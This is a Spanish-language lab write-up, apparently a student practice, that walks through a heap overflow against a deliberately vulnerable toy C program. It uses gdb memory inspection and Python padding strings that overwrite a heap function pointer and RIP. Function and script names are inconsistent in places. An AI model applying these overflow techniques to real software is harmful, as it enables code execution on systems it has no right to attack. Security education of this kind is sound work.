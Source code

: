 # HeapOverflow Carlos Dominguez
En esta práctica seguiremos los siguientes pasos para lograr un heap-overflow que nos permite abrir una foto.

Empecemos creando y ejecutando el contenedor Docker donde se harán las pruebas:
```
docker build -t heap .
docker run --rm -it --name heap heap
```
Una vez estamos dentro podemos analizar un poco el código vulnerable, el código que vaamos a romper:
```
int main(int argc, char **argv) {
    struct sdata *smidat;
    struct sfp *f;

    smidat = malloc(sizeof(struct sdata));
    f = malloc(sizeof(struct sfp));
    f->fp = fesperofuera;

    printf("data: está en [%p], el puntero fp está en [%p]\n", smidat, f);

    strcpy(smidat->buffer, argv[1]);

    f->fp();

    free(smidat);
    free(f);

    return 0;
}
```
Vemos que en ningún lugar del main vamos a llamar a la función esta
```
void fentrar() {
    printf("Pasando\n");
}
```
De forma que nuestra intención inicial como atacantes va a ser concseguir la ejecución de esta. Otro detalle que debemos destacar es que vamos a tener un struct que almacena una cadena de carácteres de tamaño 64 bytes, de forma que vamos a ver que pasa  en una ejecución normal vs una ejecución que la desborde:
![image](https://github.com/user-attachments/assets/ccc39f58-8e96-48d2-9c69-67d6398bb735)

Vemos que en la ejecución normal llegamos al final del programa ejecutando todo sin problemas, pero al forzar el overflow vemos que al llegar a la función
```
strcpy(smidat->buffer, argv[1]);
```
El sistema nos reporta que hemos accedido a una posición fuera de nuestro rango con
```
Segmentation fault (core dumped)
```
Por otro lado, destaquemos lo que hace el otro struct que almacenamos en el heap. Este guarda un puntero a una función, de forma que en el main se usa para que apunte a la función espero_fuera y luego llamar a esta desde el puntero.

Ahora vamos a ejecutar un debugger (gdb) para analizar el comportamiento de este programa:
```
gdb ./heapexample
```
Colocamos un break point en el punto en el que se llama a la función espero_fuera desde el puntero f:
![image](https://github.com/user-attachments/assets/b05b7378-974a-4a6b-a498-de59c007f942)

Tras esto, vamos a lanzar el comando
```
info proc map
```
Que nos muestra información sobre el proceso en ejecución. En concreto busacamos ver como se está organizando la memoria:
![image](https://github.com/user-attachments/assets/cba2b7e9-10ed-4910-a753-1099d54a5bcf)

En concreto, buscamos analizar el estado del heap, que en mi caso se encuentra entre las siguientes direcciones de memoria
```
Start Addr         End Addr    Size           Offset objfile
0x405000           0x426000    0x21000        0x0 [heap]
```
Ahora vamos a mostrar en detalle el contenido de esta zona de memoria, para ello ejecutamos:
```
x/120x 0x405000 
```
Donde el primer argumento expresa cuantas direcciones vamos a analizar y el segundo desde que posición lo haremos:
![image](https://github.com/user-attachments/assets/7c62b78d-ea3e-4ed1-bda8-f2f4a869f2de)

Aquí deberiamos buscar la cadena que hemos introducido "XXXX" que en hexadecimal sería "0x58585858", pero no la vemos.
Entonces vamos a aumentar el tamaño de direcciones que checkeamos:
```
x/240x 0x405000 
```
Con resultado: 
![image](https://github.com/user-attachments/assets/47d34e3b-5f8e-4d77-a450-71df0be9c8f7)

Donde ya podemos ver la cadena que buscabamos, así como la posición en la que comienza la función espera_fuera:
![image](https://github.com/user-attachments/assets/0f8903e0-2118-46a6-977b-e7b2bc6b40cf)

Para ubicar mejor donde empieza la función usaremos:
```
disass fesperofuera
```
![image](https://github.com/user-attachments/assets/134b4512-1d89-4c09-b03b-1ecde7b49cdc)

Ahora que tenemos la información que buscabamos ya podemos salir del debbuger con 
```
q
```

Ahora vamos a ejecutar un pequeño programa de python que nos deje analizar el comportamiento de la memoria ante un desbordamiento:
```
program.1:
#!/usr/bin/python3
print('X' * 90)
```

Antes de nada vamos a darle permisos y probar que funciona como es debido:
![image](https://github.com/user-attachments/assets/a91a2aab-a6de-4803-b5e0-0f7f9c9358ea)

Una vez vemos que funciona vamos a ejecutarlo para que nos de la entrada esperada de nuestro código vulnerable:
```
./heapexample $(./pp1)
```
Donde nuevamente vemos que hay un problema por desbordamiento:
![image](https://github.com/user-attachments/assets/5129e284-6665-4e61-b118-577ce1e6ff00)

Ahora veamos dentro de gdb que esta sucediendo (ejecutamos todos los pasos anteriores hasta justo antes de hacer run XXXX) ejecutando 
```
run $(program.1)
```
y volvemos a analizar el heap:
![image](https://github.com/user-attachments/assets/a34704fd-379a-45d8-b6a3-154d8f9c418b)

Viendo que hemos sobreescrito la primera instrucción de fesperandofuera.

¿Y como podríamos aprovechar esto?

Para ellos, vamos a volver a ver como se organiza el heap:
![image](https://github.com/user-attachments/assets/0d91f6a3-bfa4-4d16-bf19-cb0283f072f9)

Donde vemos que el número máximo de carácteres que podemos insertar es 
```
0x4052f0 (donde empieza fesperofuera) - 0x4052a0 (donde empieza el buffer) = 80
```

Por tanto, vamos a ver que pasa al introducir una cadena de este tamaño con el siguiente programa de python:
```
program.2:
#!/usr/bin/python3
print('X' * 70 + 'YAYBYCYDYEYFYG')
```
De forma que deberíamos prestar especial atencion a la última parte de la cadena "YFYG" = 0x47594659. Vamos a ver donde se sobreescribe esto ejecutando:
```
gdb -q ./heapexample
(gdb) run $(./program.2)
```
Y analicemos la memoria en el heap:

![image](https://github.com/user-attachments/assets/34b01a17-d6d2-488f-a2d5-2de408f73f66)

Donde podemos ver que hemos sobreescrito la zona de la funcion fesperofuera con la cadena "0x47594659" = YFYG (little endian).

Por otro lado, tras ejecutar con esta entrada si observamos los registros del sistema con:
```
info registers
```
vemos que hemos sobreescrito el RIP con esta cadena:
![image](https://github.com/user-attachments/assets/32f202a6-1c07-4c59-8ab4-3aeb843ac220)

Ahora vamos a refinar esto un poco más con el siguiente programa de Python (observar que "CDEF" = 0x46454443):
```
program.3:
#!/usr/bin/python3
print('X' * 80 + 'CDEF')
```
Donde rellenamos los primeros registros de la misma forma siempre, ya que solo nos importa sobreescribir el registro RIP. De esta forma, repetimos los pasos anteriores y vemos que pasa en el heap:
```
gdb -q ./heapexample
(gdb) run $(./program.3)
```
![image](https://github.com/user-attachments/assets/4c45454c-09ab-4534-9946-2ea11bf6a6d5)

También vemos lo que sucede con los registros:
```
info registers
```
![image](https://github.com/user-attachments/assets/38a0f883-0836-4244-b485-4b103762555c)







